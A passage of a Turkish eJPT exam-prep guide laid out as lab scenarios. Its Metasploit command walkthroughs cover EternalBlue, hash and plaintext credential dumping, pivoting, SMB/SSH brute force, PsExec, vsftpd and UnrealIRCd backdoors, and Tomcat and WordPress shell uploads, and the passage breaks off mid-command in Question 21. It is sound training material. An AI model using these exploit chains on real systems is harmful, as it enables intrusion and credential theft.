


# 🎯 eJPT Sınav Soruları & Pratik Senaryolar — Metasploit Özel Sayısı 🏆

Bu dosyadaki tüm sorular aşağıdaki **iki kaynağa** dayanarak oluşturulmuştur:

1. **INE Resmi Sınav Müfredatı (Exam Domains)**
   eJPT v2'nin resmi sınav alanları — özellikle **Host & Network Penetration Testing** bölümü (sınavın **%35**'i) Metasploit, Meterpreter, pivotlama ve post-exploitation konularını kapsar. Metasploit Framework bu bölümün **ana aracıdır** ve sınavdaki 35 sorunun yaklaşık **%40-50'si** doğrudan veya dolaylı olarak Metasploit kullanımını gerektirir.

2. **Topluluk Deneyimleri (Reddit, Medium, InfoSec Writeups)**
   Sınavı geçen adayların paylaştığı sınav deneyimi yazıları — *"şu tarz sorular geldi"*, *"pivotlama çok önemliydi"*, *"hash dump istendi"*, *"flag dosyası bulmamız gerekti"* gibi ipuçları. Adayların *"şu konudan takıldım"* dediği noktalar (özellikle proxychains + nmap kuralları, autoroute, `sessions -u`).

---

## 💡 eJPT Sınavı ve Metasploit Gerçeği (Aday Deneyimleri)

Araştırmalarım ve sınavı başarıyla tamamlayan adayların paylaştığı deneyim raporları (writeups) gösteriyor ki, eJPT sınavı çok büyük oranda Metasploit (özellikle Meterpreter) yardımıyla çözülüyor.

Hatta eJPT eğitimini sunan INE platformunun laboratuvarları ve sınavın kendisi, adayın Metasploit'e ne kadar hâkim olduğunu ölçmek üzerine kuruludur.

Adayların sınavı nasıl çözdüğünü ve Metasploit'i nerelerde kullandığını adım adım özetleyeyim:

### 1. 🔍 Keşif ve Tarama (Scanning & Enumeration)
* **Nasıl Çözüyorlar?** Bu aşamada Metasploit yerine genellikle doğrudan Kali terminalinden `nmap`, `gobuster` (veya `dirb`) ve `nikto` gibi araçlar kullanılır.
* **Amaç:** Açık portları, servis versiyonlarını ve web dizinlerini keşfetmek.

### 2. 💣 İlk Sızma (Exploitation)
* **Nasıl Çözüyorlar?** Açık portlardaki servis zafiyetlerini (örneğin EternalBlue - `ms17_010_eternalblue`, Samba açıkları veya eski versiyon servisler) sömürmek için doğrudan Metasploit (`msfconsole`) kullanılır.
* **Amaç:** Kurban makineden bir **Meterpreter** oturumu elde etmek. Adayların neredeyse %90'ı ilk sızmada Metasploit modüllerini tercih eder çünkü stabildir ve hızlı sonuç verir.

### 3. 🗺️ Sınavın En Kritik Kısmı: Pivoting (Ağda İlerleme)
* Sınavı geçenlerin en çok vurguladığı konu Pivoting adımıdır. Sızdığın ilk makine üzerinden iç ağdaki diğer gizli makinelere erişmen gerekir.
* **Metasploit Kullanımı:** Adaylar bu adımı tamamen Metasploit üzerinden çözerler:
  * Meterpreter oturumu açıkken `run autoroute -s <iç_ağ_bloğu>` yazarak Kali'ye yeni rotayı eklerler.
  * Metasploit'i arka plana alıp `auxiliary/server/socks_proxy` modülünü çalıştırırlar.
  * Kali'deki `/etc/proxychains4.conf` dosyasını bu proxy'ye yönlendirerek, `proxychains nmap ...` komutuyla iç ağdaki diğer makineleri tararlar.
  * *Bu adımı Metasploit olmadan manuel yapmak junior seviyesinde oldukça zordur, bu yüzden Metasploit sınavın kurtarıcısıdır.*

### 4. 📈 Yetki Yükseltme (Privilege Escalation)
* **Windows Makinelerde:** Adaylar doğrudan `getsystem` dener. Olmazsa `bypassuac_fodhelper` gibi UAC bypass modüllerini kullanırlar veya Metasploit içindeki `local_exploit_suggester` ile kernel açığı ararlar.
* **Linux Makinelerde:** 
  * Öncelikle `sudo -l` komutuyla sudo yetkilerini veya SUID dosyalarını tararlar (manuel olarak). Sınavdaki Linux makinelerin çoğunda basit bir yanlış konfigürasyon (misconfiguration) veya kolay bir sudo yetkisi olur.
  * Eğer buralardan sonuç çıkmazsa, işletim sistemi (kernel) sürümüne bakarlar. Metasploit'in Linux için olan exploit modüllerini denerler. Ancak Metasploit'te o kernel sürümüne uygun hazır modül yoksa, hedefe `linux-exploit-suggester.sh` atıp manuel exploit (genellikle C kodu derleme) yöntemine başvururlar.

---

### 🔍 Metasploit'te Modülleri Ezberlemeden Bulma (Arama Mantığı)

Sınavda veya gerçek sızma testlerinde hiçbir modülün tam yolunu (örn: `exploit/windows/smb/ms17_010_eternalblue`) ezberlemek zorunda değilsiniz. Metasploit'in `search` komutunu ve filtrelerini kullanarak saniyeler içinde istediğiniz modülü bulabilirsiniz:

#### 1. Temel Arama (Zafiyet veya Servis Adı ile)
Sadece servisin adını, zafiyet numarasını (CVE veya MS) veya exploit ismini yazarak arama yapabilirsiniz:
```bash
msf6 > search ms17_010
msf6 > search eternalblue
msf6 > search tomcat
msf6 > search psexec
```

#### 2. Filtreler ile Arama (Daha Temiz Sonuçlar)
Arama sonuçlarını daraltmak ve tam aradığınız şeyi bulmak için şu filtreleri ekleyebilirsiniz:
*   `type:<tür>` ➔ `exploit`, `auxiliary` (tarayıcı/brute-force vb.), `post` (yetki yükseltme/bilgi toplama vb.)
*   `platform:<işletim_sistemi>` ➔ `windows`, `linux`, `unix`, `multi`

**Örnek Pratik Aramalar:**
*   **MS17-010 tarayıcı modülünü bulmak için:**
    ```bash
    msf6 > search ms17_010 type:auxiliary
    # Çıktıdan "auxiliary/scanner/smb/smb_ms17_010" yolunu görüp seçeriz.
    ```
*   **EternalBlue exploit modülünü bulmak için:**
    ```bash
    msf6 > search eternalblue type:exploit
    # Çıktıdan "exploit/windows/smb/ms17_010_eternalblue" yolunu görüp seçeriz.
    ```
*   **Tomcat brute-force modülünü bulmak için:**
    ```bash
    msf6 > search tomcat type:auxiliary
    # Çıktıdan "auxiliary/scanner/http/tomcat_mgr_login" modülünü seçeriz.
    ```
*   **Bypass UAC modüllerini listelemek için:**
    ```bash
    msf6 > search bypassuac type:exploit
    ```
*   **Local Exploit Suggester modülünü bulmak için:**
    ```bash
    msf6 > search local_exploit_suggester
    ```

---

### 🎯 Özetle Sınav İpuçları:
* **Metasploit senin en büyük silahın olacak.** Sınav boyunca `msfconsole` ekranın sürekli açık kalacak.
* **Sadece Metasploit'e bağımlı olma:** Bazen MSF exploit'i hedefin mimarisinden (32-bit/64-bit) dolayı hata verebilir. Bu gibi durumlarda manuel exploit etmeyi (örneğin exploit kodunu arayıp bulup çalıştırmayı) bilmek "A planı çöktüğünde" sınavı geçmeni sağlar.
* **Hydra ve Brute-Force:** Sınavda bazı makineler sadece zayıf parolalar (RDP, SSH, FTP, SMB vb.) içerir. Bu kısımları Metasploit yerine doğrudan `hydra` kullanarak çözenlerin sayısı da oldukça fazladır.

---

> [!IMPORTANT]
> **Sınav Formatı Hatırlatma:**
> eJPT sınavı %100 pratik (hands-on) bir sınavdır. 35 soru, 48 saat süre verilir. Sorular canlı lab ortamında sisteme sızarak cevaplanır. Teorik "şıklı" soru yoktur; her cevap lab'dan elde ettiğiniz bir veri parçasıdır (IP adresi, hash değeri, dosya içeriği, şifre vb.). Sınav açık kitap (open-book) formatındadır.

---

## 📑 İçindekiler

* [eJPT Sınavı ve Metasploit Gerçeği (Aday Deneyimleri)](#ejpt-sınavı-ve-metasploit-gerçeği-aday-deneyimleri)
1. [Senaryo 1: Windows SMB Exploitation & Hash Toplama](#senaryo-1)
2. [Senaryo 2: Pivotlama — İç Ağ Keşfi & Sızma](#senaryo-2)
3. [Senaryo 3: Brute Force ile Kimlik Tespiti & PsExec](#senaryo-3)
4. [Senaryo 4: Linux Servis Exploitation & Flag Toplama](#senaryo-4)
5. [Senaryo 5: Web App Exploitation — Tomcat & WordPress](#senaryo-5)
6. [Senaryo 6: Pass-the-Hash ile Yatay Hareket](#senaryo-6)
7. [Senaryo 7: Msfvenom Payload & Multi Handler](#senaryo-7)
8. [Senaryo 8: Tam Zincir — Dış Ağdan İç Ağa Full Chain](#senaryo-8)

---

<div id="senaryo-1"></div>

## 🔵 Senaryo 1: Windows SMB Exploitation & Hash Toplama

**Durum:** Nmap taraması sonucunda `10.10.10.5` IP adresli hedefte port **445 (SMB)** açık ve sistem **Windows 7 Professional SP1 (x64)** olarak tespit edildi.

---

### ❓ Soru 1: `10.10.10.5` hedefindeki SMB servisi MS17-010 (EternalBlue) zafiyetine karşı savunmasız mıdır? Doğrulayınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search ms17_010 type:auxiliary
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.10.10.5
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

**Beklenen Çıktı:**
```text
[+] 10.10.10.5:445 - Host is likely VULNERABLE to MS17-010!
```

Yeşil `[+]` görüyorsanız → **Evet, savunmasızdır.** Exploit'e geçebilirsiniz.

</details>

---

### ❓ Soru 2: EternalBlue zafiyetini kullanarak `10.10.10.5` hedefine sızınız. Hangi yetki ile oturum elde ettiniz?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search eternalblue type:exploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set RHOSTS 10.10.10.5
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit
```

**Yetki doğrulama:**
```bash
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
```

**Cevap:** EternalBlue doğrudan **NT AUTHORITY\SYSTEM** yetkisi verir.

</details>

---

### ❓ Soru 3: Hedef makinenin tam işletim sistemi adı, bilgisayar adı ve mimari bilgisi nedir?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
meterpreter > sysinfo
```

**Örnek Çıktı:**
```text
Computer        : WIN-VICTIM
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Meterpreter     : x64/windows
```

**Cevap:** `Windows 7 Professional SP1 (x64)`, bilgisayar adı: `WIN-VICTIM`

> [!WARNING]
> Eğer çıktıda `Architecture: x64` ama `Meterpreter: x86/windows` görüyorsanız → 32-bit payload ile 64-bit sisteme girdiniz. `hashdump` ve `kiwi` düzgün çalışmayabilir. Derhal 64-bit bir sürece migrate edin:
> `migrate -N explorer.exe`

</details>

---

### ❓ Soru 4: `10.10.10.5` hedefindeki **Administrator** kullanıcısının NTLM hash değeri nedir?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
meterpreter > hashdump
```

**Örnek Çıktı:**
```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
```

**Cevap:** `e02bc503339d51f71d913c245d35b50b`

**Format:** `KullanıcıAdı : RID : LM_Hash : NTLM_Hash :::`
* NTLM Hash → iki nokta üst üste (`:`) arasındaki **4. alan**

</details>

---

### ❓ Soru 5: Kiwi (Mimikatz) eklentisini kullanarak Administrator'ın düz metin (plaintext) şifresini elde ediniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# 1. SYSTEM yetkisinde ve 64-bit süreçte olduğunuzdan emin olun
meterpreter > getuid
# NT AUTHORITY\SYSTEM ✓

# 2. Kiwi eklentisini yükle
meterpreter > load kiwi

# 3. RAM'deki tüm kimlik bilgilerini çek
meterpreter > creds_all
```

**Örnek Çıktı:**
```text
wdigest credentials
===================

Username       Domain       Password
--------       ------       --------
Administrator  WIN-VICTIM   SuperSecurePassword123!
student        WIN-VICTIM   StudentPass12
```

**Cevap:** `SuperSecurePassword123!`

> [!TIP]
> Kiwi çalışmazsa:
> 1. `getuid` → SYSTEM olduğunuzdan emin olun
> 2. `sysinfo` → Meterpreter x86 ise 64-bit sürece migrate edin: `migrate -N lsass.exe`

</details>

---

### ❓ Soru 6: `C:\Users\Administrator\Desktop\` dizinindeki `flag.txt` dosyasının içeriği nedir?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Yöntem 1: Doğrudan oku
meterpreter > cat c:\\Users\\Administrator\\Desktop\\flag.txt

# Yöntem 2: Önce ara, sonra indir
meterpreter > search -f *flag*
meterpreter > download c:\\Users\\Administrator\\Desktop\\flag.txt /home/kali/Desktop/
```

**Cevap:** Dosyanın içeriği ne ise onu sınav portalına yazın (Örn: `eJPT{abc123...}`)

> [!NOTE]
> Windows yollarında çift ters taksim `\\` kullanmayı unutmayın!

</details>

---

<div id="senaryo-2"></div>

## 🟢 Senaryo 2: Pivotlama — İç Ağ Keşfi & Sızma

**Durum:** `10.10.10.5` hedefine sızdınız (Session 1, Meterpreter, SYSTEM yetkisi). `ipconfig` çıktısında hedefin **ikinci bir ağ kartına** sahip olduğunu fark ettiniz:

```text
Interface  1
  IP Address  : 10.10.10.5
  Netmask     : 255.255.255.0

Interface  2
  IP Address  : 10.1.1.5
  Netmask     : 255.255.255.0
```

> [!IMPORTANT]
> **Topluluk Notu:** Sınavı geçen adayların büyük çoğunluğu *"pivotlama yapamayan sınavı geçemez"* diyor. Bu bölüm sınavın en kritik kısmıdır.

---




---

### ❓ Soru 7: Hedef makinenin ağ arayüzlerini inceleyiniz. Bizim erişemediğimiz iç ağın subnet'i nedir?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
meterpreter > ipconfig
```

**Örnek Çıktı:**
```text
Interface  1
  IP Address  : 10.10.10.5
  Netmask     : 255.255.255.0

Interface  2
  IP Address  : 10.1.1.5
  Netmask     : 255.255.255.0
```

**Cevap:** `10.1.1.0/24`

Bu ağa doğrudan erişemezsiniz. Pivotlama yapmalısınız.

</details>

---

### ❓ Soru 8: İç ağa (`10.1.1.0/24`) Metasploit üzerinden rota ekleyiniz ve doğrulayınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# 1. Oturumu arka plana al
meterpreter > background

# 2. Autoroute modülünü arat ve kullan (Arama: search autoroute)
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run

# Başarılı çıktı:
# [+] Route added to 10.1.1.0/255.255.255.0 via Session 1

# 3. Rotayı doğrula
msf6 > route print
```

**Alternatif (Manuel):**
```bash
msf6 > route add 10.1.1.0 255.255.255.0 1
```

</details>

---

### ❓ Soru 9: İç ağda (`10.1.1.0/24`) hangi IP adreslerinde hangi portlar açıktır? Tarayınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Port tarayıcı modülünü arat ve seç (Arama: search portscan)
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.1.1.0/24
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 21,22,80,445,3306,3389,8080
msf6 auxiliary(scanner/portscan/tcp) > set THREADS 50
msf6 auxiliary(scanner/portscan/tcp) > run
```

**Örnek Çıktı:**
```text
[+] 10.1.1.12: - 10.1.1.12:22 - TCP OPEN
[+] 10.1.1.12: - 10.1.1.12:80 - TCP OPEN
[+] 10.1.1.20: - 10.1.1.20:445 - TCP OPEN
```

**Cevap:** Çıktıdaki IP'ler ve açık portlar sınav portalına girilir.

</details>

---

### ❓ Soru 10: İç ağdaki `10.1.1.12` makinesine Kali'deki Nmap ile port taraması yapmak istiyorsunuz. SOCKS proxy kurup proxychains ile tarama yapınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

**Adım 1: SOCKS Proxy Başlat**
```bash
# SOCKS Proxy modülünü arat ve seç (Arama: search socks_proxy)
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
```

**Adım 2: Proxychains Yapılandır**
```bash
sudo nano /etc/proxychains4.conf
# [ProxyList] bölümünün altına:
# socks5  127.0.0.1 1080
```

**Adım 3: Nmap Taraması**
```bash
proxychains nmap -sT -Pn -p 22,80,445 10.1.1.12
```

> [!CAUTION]
> **ZORUNLU parametreler:**
> * **`-sT`** → SOCKS proxy raw socket (SYN) taşıyamaz, tam TCP bağlantısı gerekir
> * **`-Pn`** → SOCKS proxy ICMP (Ping) yönlendiremez; yoksa Nmap hedefi çevrimdışı sanır

</details>

---

### ❓ Soru 11: Meterpreter üzerinden port forwarding yaparak iç ağdaki `10.1.1.12` makinesinin 80 portuna tarayıcınızdan erişiniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Meterpreter oturumunda:
meterpreter > portfwd add -l 8888 -p 80 -r 10.1.1.12

# Kali'de tarayıcıyı aç:
firefox http://127.0.0.1:8888

# Aktif port forward'ları listele:
meterpreter > portfwd list
```

**Parametreler:**
* `-l 8888` → Kali'de dinlenecek yerel port
* `-p 80` → İç ağdaki hedefin uzak portu
* `-r 10.1.1.12` → İç ağdaki hedef IP

</details>

---

<div id="senaryo-3"></div>

## 🟠 Senaryo 3: Brute Force ile Kimlik Tespiti & PsExec

**Durum:** `10.10.10.8` IP adresli Windows hedefte port **445 (SMB)** açık ancak MS17-010 zafiyeti **yamalı**. Doğrudan exploit yok.

---

### ❓ Soru 12: EternalBlue işe yaramadığına göre, SMB üzerinden Administrator hesabının şifresini kaba kuvvet (brute force) ile bulunuz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search smb_login
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.10.8
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser Administrator
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > run
```

**Beklenen Çıktı:**
```text
[+] 10.10.10.8:445 - Success: '.\Administrator:Password123!'
```

**Cevap:** `Password123!`

</details>

---

### ❓ Soru 13: Bulduğunuz kimlik bilgilerini (`Administrator:Password123!`) kullanarak PsExec ile `10.10.10.8` hedefine sızınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search psexec
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.8
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass Password123!
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set LHOST tun0
msf6 exploit(windows/smb/psexec) > exploit
```

**Doğrulama:**
```bash
meterpreter > getuid
# NT AUTHORITY\SYSTEM
```

</details>

---

### ❓ Soru 14: SSH servisi (port 22) açık olan bir Linux hedefin root şifresini brute force ile bulunuz ve oturum elde ediniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search ssh_login
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.6
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

**Beklenen Çıktı:**
```text
[+] 10.10.10.6:22 - Success: 'root:toor'
[*] Command shell session 1 opened
```

**ÖNEMLİ:** `ssh_login` başarılı olduğunda **otomatik olarak shell oturumu açar!** Bunu Meterpreter'a yükseltebilirsiniz:
```bash
msf6 > sessions -u 1
```

</details>

---

<div id="senaryo-4"></div>

## 🔴 Senaryo 4: Linux Servis Exploitation & Flag Toplama

**Durum:** `10.10.10.6` IP adresli Linux hedefte Nmap taraması aşağıdaki sonuçları verdi:
```text
21/tcp  open  ftp       vsftpd 2.3.4
22/tcp  open  ssh       OpenSSH 7.2p2
80/tcp  open  http      Apache httpd 2.4.18
6667/tcp open  irc       UnrealIRCd
```

---

### ❓ Soru 15: Port 21'deki vsftpd 2.3.4 servisinin bilinen bir backdoor zafiyeti vardır. Bu zafiyeti kullanarak hedefi ele geçiriniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > exploit
```

**Başarılı Çıktı:**
```text
[*] Command shell session 1 opened
```

```bash
# Kullanıcıyı doğrula:
id
# uid=0(root) gid=0(root)
```

**Not:** Bu exploit payload ayarı gerektirmez, backdoor port 6200'de otomatik shell açar.

</details>

---

### ❓ Soru 16: Port 6667'deki UnrealIRCd servisini sömürerek hedef sisteme sızınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search unreal_ircd
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > set RPORT 6667
msf6 exploit(...) > set PAYLOAD cmd/unix/reverse
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit
```

**Başarılı Çıktı:**
```text
[*] Command shell session 1 opened
```

```bash
whoami
# root
```

> [!NOTE]
> **vsftpd Exploit'i ile Karşılaştırma (Neden Burada Payload Ayarladık?):**
> Soru 15'teki `vsftpd_234_backdoor` exploit'ine bakarsanız, orada hiçbir payload veya `LHOST` ayarlamadık. Doğrudan exploit dedik ve bağlandık.
> 
> *   **vsftpd (Bind Backdoor):** vsftpd zafiyeti bir *Bind (Düz) Backdoor*'dur. Kurban makine bize bağlanmaz. Exploit tetiklendiğinde kurban makine kendi üzerinde gizlice `6200` numaralı portu dinlemeye alır, Metasploit de otomatik olarak gidip o porta bağlanır. Geri bağlantı (reverse) olmadığı için ne payload seçmemize ne de LHOST/LPORT girmemize gerek kalmıştır.
> *   **UnrealIRCd (Reverse Payload):** Burada ise kurbanın bize (Kali'ye) geri bağlanmasını istedik (`cmd/unix/reverse`). Bu nedenle payload tanımladık ve kurbanın bize ulaşabilmesi için `LHOST` (Kali IP'miz) ve `LPORT` değerlerini girdik.
> 
> Kısacası; aradaki fark tamamen zafiyetin türü ve kurulan bağlantının yönüyle (Reverse vs. Bind) ilgilidir!

</details>

---

### ❓ Soru 17: Hedef Linux makinedeki tüm kullanıcıların parola hash'lerini elde ediniz. `root` kullanıcısının hash'i nedir?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

**Yöntem 1: Metasploit Post Modülü ile**
```bash
meterpreter > background
# Modülü arama: search hashdump type:post platform:linux
msf6 > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set SESSION 1
msf6 post(linux/gather/hashdump) > run
```

**Yöntem 2: Düz Shell'den Manuel**
```bash
cat /etc/shadow
```

**Örnek Çıktı:**
```text
root:$6$xyz123...$abcdef...:19234:0:99999:7:::
```

**Cevap:** `$6$` ile başlayan tüm hash değeri (SHA-512 formatı)

</details>

---

### ❓ Soru 18: `/root/flag.txt` dosyasının içeriği nedir?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Meterpreter'da:
meterpreter > cat /root/flag.txt

# veya düz shell'de:
cat /root/flag.txt
```

**Cevap:** Dosyada ne yazıyorsa onu sınav portalına girin.

</details>

---

### ❓ Soru 19: Elde ettiğiniz düz shell (command shell) oturumunu Meterpreter'a nasıl yükseltirsiniz?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Yöntem 1: Kısa yol
msf6 > sessions -u 1

# Yöntem 2: Manuel modül (Arama: search shell_to_meterpreter)
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(...) > set SESSION 1
msf6 post(...) > set LHOST tun0
msf6 post(...) > run
```

**Sonuç:** Yeni bir Meterpreter session açılır (Örn: Session 2).

> [!TIP]
> **Topluluk Notu:** Birçok aday `sessions -u` komutunu bilmediği için sınavda düz shell'de takılıp kalmış. Bu komut çok önemli!

</details>

---

<div id="senaryo-5"></div>

## 🟣 Senaryo 5: Web App Exploitation — Tomcat & WordPress

**Durum:** `10.10.10.6` hedefinde port **8080**'de Apache Tomcat, port **80**'de WordPress çalışıyor.

---

### ❓ Soru 20: Tomcat Manager panelinin varsayılan giriş bilgilerini kırınız ve WAR dosyası yükleyerek shell alınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

**Aşama 1: Şifre Kır**
```bash
# Modülü arama: search tomcat type:auxiliary
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
msf6 auxiliary(...) > set RHOSTS 10.10.10.6
msf6 auxiliary(...) > set RPORT 8080
msf6 auxiliary(...) > run

# [+] 10.10.10.6:8080 - Success: 'tomcat:tomcat'
```

**Aşama 2: WAR Upload ile Sız**
```bash
# Modülü arama: search tomcat type:exploit
msf6 > use exploit/multi/http/tomcat_mgr_upload
msf6 exploit(...) > set HttpUser tomcat
msf6 exploit(...) > set HttpPass tomcat
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > set RPORT 8080
msf6 exploit(...) > set PAYLOAD java/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > exploit
```

**Alternatif şifre bulma:** FTP anonymous/SMB paylaşımı/LFI ile `tomcat-users.xml` dosyasını okuyun.

</details>

---

### ❓ Soru 21: WordPress admin panelinin şifresini bulup, Metasploit ile shell elde ediniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

**Aşama 1: Şifre Bul**
```bash
# Kali terminalden WPScan ile:
wpscan --url http://10.10.10.6 --enumerate u
wpscan --url http://10.10.10.6 -U admin -P /usr/share/wordlists/fasttrack.txt
```

**Aşama 2: Metasploit ile Sız**
```bash
# Modülü arama: search wordpress
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(...) > set RHOSTS 10.10.10.6
msf6 exploit(...) > set RPORT 80
msf6 exploit(...) > set USERNAME admin
